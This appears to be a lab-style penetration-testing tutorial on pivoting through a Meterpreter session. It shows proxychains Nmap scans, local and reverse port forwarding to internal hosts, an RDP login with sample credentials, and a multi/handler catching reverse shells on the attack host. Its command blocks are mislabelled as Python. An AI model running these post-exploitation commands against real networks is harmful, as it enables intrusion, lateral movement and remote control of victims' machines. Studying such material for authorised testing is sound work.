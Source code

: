Below, verify proxychain routed Nmap traffic via your Meterpreter session

#### Testing Proxy & Routing Functionality

```python
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

### Port Forwarding

Use Meterpreter's `portfwd` module to do Port Forwarding. Enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network.

#### Creating a Local TCP Relay

```python
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

-l 3300: start a listener on attack host local port 3300

-p 3389 -r 172.16.5.19: send all packets to remote port 3389 on the remote host 172.16.5.19

Test if the above worked by remoting into the Windows machine:

```python
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

### Meterpreter Reverse Port Forwarding

Metasploit can also perform `reverse port forwarding` with the below command, where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host

#### Reverse Port Forwarding Rules

```python
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```

NOTE: forwards all connections on port 1234 running on the Ubuntu server to our attack host on local port (-l) 8081

#### Configuring & Starting multi/handler

```python
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run
```
